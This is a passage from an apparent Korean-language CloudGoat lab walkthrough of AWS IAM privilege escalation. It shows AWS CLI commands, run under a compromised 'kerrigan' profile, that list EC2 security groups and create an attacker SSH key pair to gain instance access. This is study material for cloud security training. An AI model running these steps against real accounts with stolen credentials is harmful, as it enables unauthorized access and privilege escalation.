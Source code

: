 ![](./9.png)

- 인스턴스에서 필요한 subnet 부분을 쿼리로 검색한 결과 2개의 데이터가 출력이 되었습니다.

```json
aws ec2 describe-instances \
    --query 'Reservations[*].Instances[*].[SecurityGroups]' \
    --output text --profile kerrigan

sg-04ffcf8e873ee2103    cg-ec2-ssh-iam_privesc_by_attachment_cgidmbi301d8zu
sg-063079fb3bea2c77e    cg-ec2-http-iam_privesc_by_attachment_cgidmbi301d8zu
```

![](./10.png)

- 앞서 출력된 서브넷 정보와 보안 그룹을 열거하고 EC2 인스턴스에 대한 SSH 액세스를 허용하는 보안 그룹을 분석하였습니다.

### EC2 Key pair 생성

- 앞선 필요한 정보들을 수집한후 AWS 계정에서 기존 key-pair를 사용할 수 없기 때문에 새로운 SSH key-pair를 생성하였습니다. 생성할 수 있는 EC2 머신에서 SSH 연결하려면 새로운 key-pair가 필요합니다.

```json
aws ec2 create-key-pair \
    --key-name fake-ec2  \
    --query 'KeyMaterial' \
    --output text > fake-ec2.pem \
    --region us-east-1 \
    --profile kerrigan
```
